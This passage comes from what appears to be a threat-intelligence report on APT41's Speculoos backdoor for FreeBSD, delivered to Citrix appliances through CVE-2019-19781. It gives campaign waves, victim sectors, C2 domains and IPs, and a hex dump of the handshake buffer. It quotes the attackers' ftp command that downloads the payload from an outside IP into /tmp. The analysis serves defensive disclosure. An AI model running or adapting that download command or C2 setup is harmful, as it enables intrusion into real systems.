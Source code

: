 In this attack campaign, the adversaries exploited CVE-2019-19781 to direct the victim appliances to retrieve Speculoos over FTP using the command /usr/bin/ftp -o /tmp/bsd ftp://test:[redacted]\@66.42.98[.]220/<filename> as reported by FireEye. Our data was consistent with this activity, with the first wave beginning on January 31, 2020 evening UTC to February 1, 2020 afternoon UTC using the filename bsd. This wave affected multiple higher education organizations in the United States, a healthcare organization in the United States, and a consulting firm in Ireland. A second wave began on February 24, 2020 morning UTC through February 24, 2020 after midnight UTC, this time using the filename un. This wave affected a higher education organization in Colombia, a manufacturing organization in Austria, a higher education organization targeted in the first wave in the United States, and a state government in the United States. While the data Unit 42 has access to is not exhaustive, examining the spread of victims we do have data on appears to indicate that this attack campaign may have been more of an opportunistic push by APT41 to gain footholds in a large number of organizations with minimal effort to expand their attack infrastructure.
The deployment of a tool to run specifically on FreeBSD is fairly novel. Malware targeting BSD-based systems are relatively rare, and considering the use of this tool in conjunction with a vulnerability affecting specific Citrix network appliances, it is highly likely Speculoos was specifically crafted for this attack campaign by APT41.
Binary Analysis
The Speculoos backdoor is an ELF executable compiled with GCC 4.2.1 to run on a FreeBSD system. This payload does not appear to natively be able to maintain persistence, so it is likely it requires the adversary to use a separate component or additional step to maintain their foothold. Upon execution, the payload enters a loop that calls a function to communicate with the following command and control (C2) domain over TCP/443:
alibaba.zzux[.]com (resolving to 119.28.139[.]120)
If it is unable to communicate with the domain above, Speculoos will attempt to use a backup C2 at 119.28.139[.]20, also over TCP/443. If it is able to connect to either C2 server, it will carry out a TLS handshake with the server using the hardcoded buffer in the binary which is used as the first packet in the handshake. Before sending the hardcoded buffer to the C2 server, Speculoos modifies offset 11 with the current time and offset 15 with 28 pseudorandom bytes generated by iterating through the domain string, adding the current time and then using XOR on each byte with 7 multiplied by the byte's offset as a key. Figure 1 shows the hardcoded buffer before Speculoos modifies and sends it to the C2 server.





16 03 01 00 B5 01 00 00 B1 03 01 00 00 00 00 00 ................

00 00 00 00 00 6A CE 14 27 3F 24 92 AB 0A A3 F7 .....j..'?$.....

DB 21 1C D6 7F FD E3 A3 50 00 00 00 00 48 C0 0A .............H..

C0 14 00 88 00 87 00 39 00 38 C0 0F C0 05 00 84 .......9.8......

00 35 C0 07 C0 09 C0 11 C0 13 00 45 00 44 00 66 .5.........E.D.f

00 33 00 32 C0 0C C0 0E C0 02 C0 04 00 96 00 41 .3.2...........A

00 04 00 05 00 2F C0 08 C0 12 00 16 00 13 C0 0D ...../..........

C0 03 FE FF 00 0A 02 01 00 00 3F 00 00 00 13 00 ..........?.....

11 00 00 0E 6C 6F 67 69 6E 2E 6C 69 76 65 2E 63 ....login.live.c

6F 6D FF 01 00 01 00 00 0A 00 08 00 06 00 17 00 om..............

18 00 19 00 0B 00 02 01 00 00 23 00 00 33 74 00 ..........#..3t.
